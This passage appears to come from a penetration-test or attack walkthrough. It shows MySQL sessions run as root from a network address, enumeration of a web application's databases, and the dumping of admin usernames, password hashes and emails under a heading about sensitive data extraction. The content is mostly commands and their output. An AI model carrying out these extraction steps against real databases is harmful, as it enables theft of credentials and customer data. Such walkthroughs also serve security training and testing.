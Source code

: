 ```bash
+-------------------------+

mysql> SELECT USER();
+----------------+
| USER()         |
+----------------+
| root@192.168.1.5 |
+----------------+

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| employees          |
| mysql              |
| performance_schema |
| sys                |
| webapp_db          |
+--------------------+
6 rows in set (0.01 sec)
```

#### **Phase 4: Sensitive Data Discovery and Extraction**
```bash
# Step 6: Investigate custom databases for sensitive information
mysql> USE webapp_db;
Database changed

mysql> SHOW TABLES;
+---------------------+
| Tables_in_webapp_db |
+---------------------+
| admin_users         |
| customer_data       |
| payment_info        |
| user_sessions       |
+---------------------+

# Step 7: Analyze table structures for sensitive data
mysql> DESCRIBE admin_users;
+----------+-------------+------+-----+---------+-------+
| Field    | Type        | Null | Key | Default | Extra |
+----------+-------------+------+-----+---------+-------+
| id       | int(11)     | NO   | PRI | NULL    | auto_increment |
| username | varchar(50) | NO   |     | NULL    |       |
| password | varchar(255)| NO   |     | NULL    |       |
| email    | varchar(100)| YES  |     | NULL    |       |
| role     | varchar(20) | YES  |     | user    |       |
+----------+-------------+------+-----+---------+-------+

# Step 8: Extract administrative credentials
mysql> SELECT username, password, email, role FROM admin_users;
+----------+----------------------------------+----------------------+-------+
| username | password                         | email                | role  |
+----------+----------------------------------+----------------------+-------+
| admin    | 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8 | admin@company.com    | admin |
| manager  | ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f | manager@company.com  | user  |
+----------+----------------------------------+----------------------+-------+

# 🎯 Critical Data Extracted:
```
